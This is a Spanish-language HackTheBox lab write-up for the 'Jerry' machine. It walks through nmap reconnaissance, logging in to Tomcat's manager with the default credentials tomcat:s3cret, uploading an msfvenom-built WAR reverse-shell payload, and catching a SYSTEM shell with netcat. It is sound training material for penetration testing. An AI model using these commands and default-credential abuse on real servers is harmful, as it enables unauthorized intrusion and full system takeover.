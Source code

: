 ```yaml
---
title: "Jerry"
description: "Máquina Jerry de Hackthebox"
date: 2024-07-23 21:00:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Windows
tags:
  - Information Leakage
  - Abusing Tomcat
image:
  path: /assets/img/Jerry/Jerry.png
---
```


## Skills

- Information Leakage
- Abusing Tomcat [Intrusion & Privilege Escalation]
  
## Certificaciones

- eJPT

## Descripción

`Jerry` es una máquina `easy windows`, hay un tomcat por el `puerto 8080`, usando las `credenciales` por `defecto`accederemos a `/manger/html` donde subiremos un `.war` malicioso que usaremos para ganar `acceso` a la máquina víctima como usuario `Administrator`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `windows` suele ser `128`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.191.206
PING 10.129.191.206 (10.129.191.206) 56(84) bytes of data.
64 bytes from 10.129.191.206: icmp_seq=1 ttl=127 time=165 ms
64 bytes from 10.129.191.206: icmp_seq=2 ttl=127 time=131 ms
^C
--- 10.129.191.206 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 131.328/148.125/164.923/16.797 ms
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -Pn -n -v 10.129.191.206 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:29 CEST
Initiating SYN Stealth Scan at 18:29
Scanning 10.129.191.206 [65535 ports]
Discovered open port 8080/tcp on 10.129.191.206
Completed SYN Stealth Scan at 18:29, 26.38s elapsed (65535 total ports)
Nmap scan report for 10.129.191.206
Host is up (0.061s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
           Raw packets sent: 131089 (5.768MB) | Rcvd: 21 (924B)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 8080 10.129.191.206 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:30 CEST
Nmap scan report for 10.129.191.206
Host is up (0.059s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```

### Web Enumeration

Cuando accedemos a `http://10.129.191.206:8080` vemos lo siguiente

![](/assets/img/Jerry/image_1.png)

Cuando intentamos acceder a `/manger/html` nos aparece este panel de `login`

![](/assets/img/Jerry/image_2.png)

Al usar un `listado` de `credenciales` por `defecto` que podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials) ganamos acceso con las credenciales `tomcat:s3cret`

![](/assets/img/Jerry/image_3.png)

## Intrusión

Creamos con `msfvenom` un archivo `.war` para ganar acceso a la máquina víctima

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.16 LPORT=443 -f war -o revshell.war  
```

`Subimos` el archivo `.war malicioso`

![](/assets/img/Jerry/image_4.png)

Nos ponemos en `escucha` mediante `netcat` en el `puerto 443`

```
# nc -nlvp 443
```

Hacemos `click` sobre el `archivo`, lo que nos llevará a `http://10.129.191.206:8080/revshell/` ejecutándose y enviándonos una `reverse shell` a nuestro equipo

![](/assets/img/Jerry/image_5.png)

Ganamos acceso al equipo como `nt authority\system`

```
# nc -nlvp 443      
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.191.206] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
